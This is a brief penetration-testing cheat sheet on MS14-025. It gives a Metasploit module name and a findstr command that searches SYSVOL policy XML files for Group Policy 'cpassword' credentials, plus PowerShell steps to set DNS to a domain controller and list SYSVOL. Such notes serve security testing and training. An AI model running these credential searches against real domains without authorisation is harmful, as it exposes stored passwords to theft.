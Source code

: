 # SYSVOL and GPP MS14-025

### Search for the .xml file

 - use scanner/smb/smb_enum_gpp (Metasploit)

 - findstr /S /I cpassword \\FQDN\sysvol\FQDN\policies\*.xml

## DNS Configuration

#### 1) 

    $dnsip= "DC_IP"

#### 2) 

    $index = Get-NetAdapter -Name 'ETHERNET' | Select-Object -ExpandProperty 'ifIndex' Set-DnsClientServerAddress -InterfaceIndex $index -serverAddresses $dnsip

#### 3) 

    nslookup DOMAIN

#### 4) 

    dir \\\\DOMAIN\SYSVOL\
